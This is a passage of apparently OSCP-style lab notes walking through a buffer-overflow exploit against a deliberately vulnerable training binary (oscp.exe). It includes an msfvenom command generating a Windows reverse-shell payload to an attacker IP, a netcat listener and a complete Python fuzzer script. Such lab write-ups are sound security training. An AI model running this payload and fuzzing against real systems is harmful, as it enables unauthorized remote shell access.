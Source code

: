 ```shell
#add jump point address to 'retn' in little-endian format

#generate payload
msfvenom -p windows/shell_reverse_tcp LHOST=10.14.31.212 LPORT=4444 EXITFUNC=thread -b "\x00\x07\x2e\xa0" -f c

vim exploit.py
#add payload, enclosed in brackets
#also edit to var padding = "\x90" * 16

#setup listener
nc -nvlp 4444

#run exploit
python3 exploit.py
#we get reverse shell
```

* Given, we have a 32-bit Windows 7 VM with Windows Firewall & Defender disabled.

* We will be using Immunity Debugger to help with buffer overflows.

* Run the Immunity Debugger application as Administrator, and use 'Open File' to open the vulnerable app (oscp.exe).

* Run the binary; oscp.exe is now running and listening on port 1337.

* Connecting to the Windows machine on port 1337 with Kali, we get access to the OSCP Vulnerable Server; we have to go for OVERFLOW1 here.

* Run the following command in the command input box in Immunity Debugger (bottom section):

  ```!mona config -set workingfolder c:\mona\%p```

* Now, we need to create ```fuzzer.py``` in Kali:

```python
#!/usr/bin/env python3

import socket, time, sys

ip = "10.10.36.72"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```
